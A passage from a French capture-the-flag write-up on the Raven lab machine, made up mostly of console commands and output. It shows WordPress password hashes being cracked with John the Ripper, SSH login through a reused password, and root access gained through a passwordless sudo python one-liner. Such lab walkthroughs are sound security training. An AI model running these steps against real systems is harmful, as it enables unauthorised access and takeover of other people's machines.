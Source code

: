 ```console
michael@Raven:~$
```

Avec un peu de chance, [__John The Ripper__](https://www.openwall.com/john/) ne fera qu'une bouchée de ces hashs.

```console
root@blinils:~# cat pass-wordpress-raven.txt
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

root@blinils:~# john pass-wordpress-raven.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (steven)
1g 0:00:43:40 DONE (2018-11-11 12:12) 0.000381g/s 5473p/s 5490c/s 5490C/s            ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Après vérifications, il s'avère que Steven utilise le même mot de passe pour ses accès SSH et WordPress !

```console
root@blinils:~# ssh steven@192.168.56.105
steven@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 13 14:12:04 2018

$ id; uname -a;
uid=1001(steven) gid=1001(steven) groups=1001(steven)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux
```

## Élévation de privilèges avec le binaire python

L'objectif est désormais de devenir root sur le serveur Raven. L'utilisateur ```steven``` est autorisé à exécuter la commande ```/usr/bin/python``` via sudo sans mot de passe. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io/gtfobins/python/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec python.

```console
$ sudo -l
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python

$ sudo /usr/bin/python -c 'import os; os.system("/bin/bash")'

root@Raven:/home/steven# id
uid=0(root) gid=0(root) groups=0(root)

root@Raven:/home/steven# wc -c /root/flag4.txt
442 /root/flag4.txt
```
